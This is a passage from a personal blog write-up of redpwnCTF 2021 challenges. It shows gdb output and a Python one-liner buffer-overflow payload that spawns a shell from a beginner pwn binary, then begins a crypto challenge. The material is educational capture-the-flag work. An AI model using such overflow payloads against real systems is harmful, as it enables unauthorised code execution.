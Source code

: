 Now let's let execution continue as normal by using the `continue` command:

```
(gdb) continue
Continuing.
[Detaching after vfork from child process 22950]
[Inferior 1 (process 22947) exited normally]
```

This might seem underwhelming, but our explit works! A child process was
spawned, and as a bonus, we didn't get any segmentation faults! The reason we
don't get an interactive shell is because we used python to pipe input into the
program which makes it non-interactive.

At this point I was about 12 hours in of straight gdb hell, and I was very
happy to see this shell. After discovering this, I immediately tried it outside
the debugger and was dissapointed to see that my exploit didn't work. After a
small panick attack I found out this was because of my environment variables.
You can launch an environment-less shell by using the `env -i sh` command:

```
λ generic → λ git master* → env -i sh
sh-5.1$ python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)" | ./beginner-generic-pwn-number-0
"𝘭𝘦𝘵𝘴 𝘣𝘳𝘦𝘢𝘬 𝘵𝘩𝘦 𝘵𝘳𝘢𝘥𝘪𝘵𝘪𝘰𝘯 𝘰𝘧 𝘭𝘢𝘴𝘵 𝘮𝘪𝘯𝘶𝘵𝘦 𝘤𝘩𝘢𝘭𝘭 𝘸𝘳𝘪𝘵𝘪𝘯𝘨"
rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!
can you write me a heartfelt message to cheer me up? :(
sh-5.1$ # another shell :tada:
```

Now it was time to actually do the exploit on the remote server.

I whipped up the most disgusting and janky python code that I won't go into
detail about, but here's what is does (in short):

1. Create a thread to capture data from the server and forward it to `stdout`
2. Capture user commands using `input()` and decide what to do with them on the main thread

The code for this script can be found
[here](https://github.com/lonkaars/redpwn/blob/master/challenges/generic/pwn.py),
though be warned, it's _very_ janky and you're probably better off copying
stuff from stackoverflow. Writing your own tools is more fun though, and might
also be faster than trying to wrestle with existing tools to try to get them to
do exactly what you want them to do. In this case I could've also just used [a
siple
command](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection?noredirect=1&lq=1).

It did help me though and I actually had to copy it for use in the other buffer
overflow challenge that I solved, so I'll probably refactor it someday for use
in other CTFs.

### crypto/round-the-bases

This crypto challenge uses a text file with some hidden information. If you
open up the file in a text editor, and adjust your window width, you'll
eventually see the repeating pattern line up. This makes it very easy to see
what part of the pattern is actually changing:


[meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)